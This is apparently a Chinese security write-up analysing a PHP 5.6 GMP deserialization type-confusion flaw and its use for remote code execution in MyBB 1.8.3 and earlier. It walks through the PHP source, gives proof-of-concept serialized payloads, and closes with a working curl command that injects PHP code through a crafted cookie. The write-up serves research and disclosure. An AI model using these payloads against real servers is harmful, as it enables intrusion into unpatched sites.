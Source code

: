 ```yaml
---
title: "MyBB <= 1.8.3 rce漏洞"
id: zhfly3034
---
```


# MyBB <= 1.8.3 RCE

## 一、漏洞简介

在使用精心编制的对象的`__wakeup()`魔术方法进行GMP反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

## 二、漏洞影响

PHP 5.6 < 5.6.30

MyBB<=1.8.3

## 三、复现过程

### 漏洞分析

gmp.c

```
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
    ...
    ALLOC_INIT_ZVAL(zv_ptr);
    if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
        || Z_TYPE_P(zv_ptr) != IS_ARRAY
    ) {
        zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
        goto exit;
    }

```
if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
    zend_hash_copy(
        zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
        (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
    );
} 
``` 
```

zend_object_handlers.c

```
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
    zend_object *zobj;
    zobj = Z_OBJ_P(object);
    if (!zobj->properties) {
        rebuild_object_properties(zobj);
    }
    return zobj->properties;
} 
```

攻击者可以将`**object`更改为整数类型或bool类型的ZVAL，然后攻击者将能够通过`Z_OBJ_P`访问存储在对象库中的任何对象。这意味着攻击者将能够通过`zend_hash_copy()`更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞

```
<?php

class obj

{

var $ryat;

```
function __wakeup()
{
    $this-&gt;ryat = 1;
} 
```

}

$obj = new stdClass;

$obj->aa = 1;

$obj->bb = 2;

$inner = ‘s:1:“1”;a:3:{s:2:“aa”;s:2:“hi”;s:2:“bb”;s:2:“hi”;i:0;O:3:“obj”:1:{s:4:“ryat”;R:2;}}’;

$exploit = ‘a:1:{i:0;C:3:“GMP”:’.strlen($inner).’:{’.$inner.’}}’;

$x = unserialize($exploit);

var_dump($obj); `?>` 
```

预期结果:

```
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
} 
```

实际结果:

```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
} 
```

### 漏洞利用

在`php 5.6<=5.6.11`中，DateInterval的`__wakeup()`使用`convert_to_long()`句柄并重新分配其属性，因此攻击者可以通过GMP的`gmp_cast_object()`将GMP对象转换成任何整数类型的ZVAL:

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS; 
```

漏洞利用代码

```
<?php

var_dump(unserialize(‘a:2:{i:0;C:3:“GMP”:17:{s:4:“1234”;a:0:{}}i:1;O:12:“DateInterval”:1:{s:1:“y”;R:2;}}’)); `?>` 
```

当然，也可以套用精心编制的`__wakeup()`

```
<?php

function __wakeup()

{

$this->ryat = (int) $this->ryat;

} `?>` 
```

#### MyBB <= 1.8.3

index.php

```
if(isset($mybb->cookies['mybb']['forumread']))
    {
        $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
    } 
```

MyBB<=1.8.3允许通过`unserialize()`反序列化cookie，因此攻击者能够更新`$mybb`或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL注入、RCE等
好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB <= 1.8.3 RCE漏洞

index.php

```
eval('$index = "'.$templates->get('index').'";'); 
```

MyBB在模板解析过程中始终使用eval()函数。
inc/class_templates.php

```
class templates
{
    ...
    public $cache = array();
    ...
    function get($title, $eslashes=1, $htmlcomments=1)
    {
        global $db, $theme, $mybb;
        ...
        $template = $this->cache[$title];
        ...
        return $template;
    } 
```

如果我们可以控制`$cache`，我们就可以通过`eval()`函数注入php代码。
inc/init.php

```
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
    case "sqlite":
        $db = new DB_SQLite;
        break;
    case "pgsql":
        $db = new DB_PgSQL;
        break;
    case "mysqli":
        $db = new DB_MySQLi;
        break;
    default:
        $db = new DB_MySQL;
}
...
$templates = new templates; 
```

`$templates`对象在`init.php`中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为5并存储到对象存储中，因此我们可以访问`$templates`对象并通过在GMP反序列化期间将GMP对象转换为整型ZVAL(其值为5)来更新`$cache`属性。这也表明我们可以通过eval()函数注入php代码。

当MyBB<=1.8.3和PHP5.6<=5.6.11时，只需在命令行上使用curl即可触发RCE：

```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://0-sec.org/mybb/ 
```